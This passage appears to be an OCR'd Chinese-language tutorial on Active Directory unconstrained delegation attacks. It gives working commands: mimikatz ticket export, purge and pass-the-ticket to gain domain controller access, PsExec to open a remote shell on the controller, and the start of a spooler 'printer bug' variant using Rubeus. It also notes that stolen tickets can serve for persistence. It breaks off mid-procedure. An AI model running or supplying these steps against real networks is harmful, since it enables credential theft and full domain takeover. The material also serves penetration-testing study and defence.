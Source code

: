 ![]()

（3）非约束委派攻击

获取域成员主机的本地管理员账户权限，使用mimikatz.exe工具导出被委派时留下的TGT票据：

mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit > result.txt

![]()

看到导出了域控administrator用户的krbtgt票据，该票据可以长期保存用于权限维持和横向攻击：

![]()

如果抓不到域控administrator用户的krbtgt票据，也可以抓取其他域管理员用户的krbtgt票据：

![]()

如果没抓到票据，执行清除票据命令，等待该主机被委派后再次导出票据：

CMD执行：klist purge ，或者mimikatz工具执行

mimikatz "privilege::debug" "kerberos::purge" "exit" > result.txt

![]()

导入域控administrator用户的tgt票据，看到再次查看域控C盘时不用登入：

mimikatz.exe "kerberos::ptt
C:\Users\Administrator\Desktop\x64\\[0;2efe5b]-2-0-60a00000-Administrator@krbtgt-
ZACK.COM.kirbi" "exit" > result.txt

![]()![]()

票据导入后就拥有域控权限，使用PsExec64.exe工具调用域控cmd窗口：

PsExec64.exe\\\DC.zack.com cmd.exe

![]()



3、非约束委派+spooler打印机

（1）原理说明

该漏洞与非约束委派攻击原理一样，只不过利用常规的非约束委派攻击的话很难，因为高权限用户是不会主动去访问可控域成员主机的，所以可以利用域控或者其他服务器上面的spooler服务去主动访问可控主机，这样就可以获取访问主机的TGT票据来横向攻击。这里面会用到两个工具，分别是Rubeus和SpoolSample。

这两个工具都需要安装NetFramework4.0.30319.exe组件。

Rubeus在本地管理员运行，因为要读取系统记录日志。

SpoolSample在域用户下运行，要不然你无法使用MS-RPRN协议进行通信，实验发现域控为server2012才攻击成功。

（2）漏洞利用

在可控的域成员主机上使用本地管理员启动Rubeus.exe工具监控域控名称：

Rubeus.exe monitor /interval:1 /filteruser:DC$ > tgt.txt
